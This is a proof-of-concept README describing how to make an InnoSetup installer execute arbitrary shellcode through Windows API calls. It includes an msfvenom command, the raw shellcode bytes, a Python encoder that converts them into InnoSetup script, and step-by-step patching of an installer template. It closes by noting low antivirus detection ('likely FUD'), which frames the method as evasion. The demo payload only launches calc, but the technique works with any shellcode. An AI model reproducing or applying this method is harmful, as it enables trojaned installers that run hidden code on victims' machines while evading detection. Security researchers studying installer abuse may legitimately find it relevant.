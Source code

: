 # InnoSetup Execute Shellcode PoC

[Screenshot 2021-07-20 at 19.10.40.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.10.40.png)

This PoC demonstrate how to take advantage of InnoSetup scripting engine to run shellcode through Windows API.

The difficulty behind this concept was the lack of important code features (especially pointer support).

## How To

### Generate your payload

Using `msfvenom`, generate your payload. In our case a basic exec Windows calc shellcode.

`msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f python -v payload`

```
payload =  b""
payload += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
payload += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00"
payload += b"\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
payload += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
payload += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
payload += b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65"
payload += b"\x00"
```

### Edit Payload Helper Script

Edit the `payload_helper.py` script and place freshly generated payload at the correct location.

```
payload =  b""
payload += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
payload += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
payload += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
payload += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
payload += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
payload += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00"
payload += b"\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
payload += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
payload += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
payload += b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65"
payload += b"\x00"

if __name__ == '__main__':
    template = "PAYLOAD[%d] := $%x;\n";

    payload_code = ""

    for index, byte in enumerate(payload):
        payload_code += template % (index, byte)


    print(payload_code)
    print(len(payload))
```

### Run Payload Helper

Then run payload helper script

`python gen_innocode.py`

Two important information are generated.

First one is the payload itself (encoded to InnoSetup Script Engine format)

Second one is the payload size.

### Patch Payload in Innosetup Template

Copy the encoded payload to the `FIX_ME_PLEASE` in function `InitializePayload()` location inside the InnoSetup template file.

```
procedure InitializePayload();
begin
  FIX_ME_PLEASE
end;
```

To

```
procedure InitializePayload();
begin
  PAYLOAD[0] := $fc;
  PAYLOAD[1] := $e8;
  PAYLOAD[2] := $82;
  PAYLOAD[3] := $0;
  ... snip ...
  PAYLOAD[190] := $78;
  PAYLOAD[191] := $65;
  PAYLOAD[192] := $0;  
end;
```

### Patch Payload size in Innosetup Template

Copy the payload size to the other `FIX_ME_PLEASE` location in the PAYLOAD array declaration.

```
type 
  TPayloadArray = array[0..FIX_ME_PLEASE-1] of byte;
```

To

```
type 
  TPayloadArray = array[0..193-1] of byte;
```
## Ready

Your InnoSetup script is now ready. You can build and execute your script and enjoy the result.

A calculator process should spawn during installation process.

Notice: I decided to place the shellcode execution code in a specific installation step. Feel free to place this code anywhere during installation process.

For InnoSetup 64bit setup installation mode, few things needs to be adapted. I will surely do it soon as the time permit me ;-)

If you like it, share!

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

3/69 (Mostly generic detection because of file reputation) / Likely FUD

[Screenshot 2021-07-20 at 19.09.53.png](https://s3.eu-central-1.amazonaws.com/www.phrozen.io/uploads/Screenshot_2021-07-20_at_19.09.53.png)
